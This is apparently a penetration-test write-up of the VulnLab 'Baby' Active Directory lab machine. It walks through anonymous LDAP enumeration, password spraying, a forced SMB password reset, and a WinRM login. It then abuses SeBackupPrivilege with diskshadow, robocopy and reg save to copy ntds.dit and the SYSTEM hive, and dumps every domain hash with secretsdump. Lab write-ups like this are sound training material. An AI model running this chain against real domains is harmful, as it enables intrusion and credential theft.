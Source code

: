 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```
![alt text](assets/image1.png)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```
![alt text](assets/image2.png)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```

![image](https://www.notion.so/image/attachment%3A8128a076-a6bb-4f80-9bb2-dc3ad0369069%3Aimage?table=block&id=1d43d2c4-89f6-80df-96ae-c13d0b80c19d&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![image](https://www.notion.so/image/attachment%3A05b5e0ca-390a-4177-93b8-e35d16df897c%3Aimage.png?table=block&id=1d43d2c4-89f6-809b-8d18-d1db8585fea6&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

![image](https://www.notion.so/image/attachment%3Adb4dad91-4b41-4c20-9be5-ddcb4e2aac1d%3Aimage.png?table=block&id=1d43d2c4-89f6-800f-ac4c-f8e2119ddd37&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![image](https://www.notion.so/image/attachment%3A25f57ada-baf4-4c58-971b-ceec561bab1b%3Aimage.png?table=block&id=1d43d2c4-89f6-80b1-b9c3-e39f183bc325&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![image](https://www.notion.so/image/attachment%3Aabb5435f-cbb9-4545-9e89-de1e97c36b6b%3Aimage.png?table=block&id=1d43d2c4-89f6-805b-afa4-ee34d032ccef&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

First Degree Group Membership

![image](https://www.notion.so/image/attachment%3Ad0bf5e4e-f85b-4572-bf11-ea02f49caf53%3Aimage.png?table=block&id=1d43d2c4-89f6-806b-be52-c7f751f68f00&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A6d9b5578-ff7b-4256-bc6e-5cba314f6c2a%3Aimage.png?table=block&id=1d43d2c4-89f6-8083-b950-da80549d037e&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A285aca5c-0905-44ce-a5f5-41b3c7d8c40a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b4-8c0f-e784b08e0999&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## PrivEsc

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
diskshadow /s vss.dsh
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

also

```bash
reg.exe save hklm\system system
```

download

![image](https://www.notion.so/image/attachment%3A8cc23693-5ecd-4051-83ed-689ac6d3bbb1%3Aimage.png?table=block&id=1d43d2c4-89f6-8046-a959-d847c4459f2f&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![image](https://www.notion.so/image/attachment%3Ae5d49be1-1fef-495e-9b82-7569e4ed18e7%3Aimage.png?table=block&id=1d43d2c4-89f6-80f4-842a-d3321ab6e8a8&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)